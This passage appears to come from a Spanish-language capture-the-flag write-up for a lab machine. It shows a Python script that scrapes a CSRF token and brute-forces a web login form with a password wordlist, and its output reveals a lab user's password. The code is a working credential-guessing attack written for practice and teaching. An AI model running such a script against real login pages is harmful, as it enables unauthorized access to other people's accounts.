 ```python
def bruteforce():

	s = requests.Session()
	r=s.get(url)
	response=r.text

	soup = BeautifulSoup(response, "html.parser")
	csrf=soup.find("input",{"name":"csrf"})['value']


	p1=log.progress('Fuerza bruta, probando contraseña: ')

	with open("dicc.txt") as dicc:

		for user in users:

			for char in dicc:

				data = {
					"csrf":csrf,
					"user_name":"%s" % user,
					"user_password":"%s" % char.rstrip(),
					"action":"login"
					}

				r2=s.post(url,data=data,proxies=proxies)

				p1.status(str(data))

				if "The information is incorrect" in r2.text:

					pass

				else:

					print ("Password {} encontrada".format(char.rstrip()))

					break
if __name__ == '__main__':
	bruteforce()
```

El resultado:

```bash
❯ python3 bruteforce.py
[↗] Fuerza bruta, probando contraseña: : {'csrf': 'f5b7f2d53dcce6dfb6897ed220ae81d04236323574b3d70339f0b405ea1c13dd', 'user_name': 'harvey', 'user_password': 'amazing', 'action': 'login'}
Password potter encontrada
```

La contraseña potter para harvey es valida! Ahora podemos autenticarnos en la web. Si vemos los servidores que la herramienta tiene asignados para monitorizar, podemos ver el siguiente: "http://internal-01.bart.htb/" lo añadimos al /etc/hosts
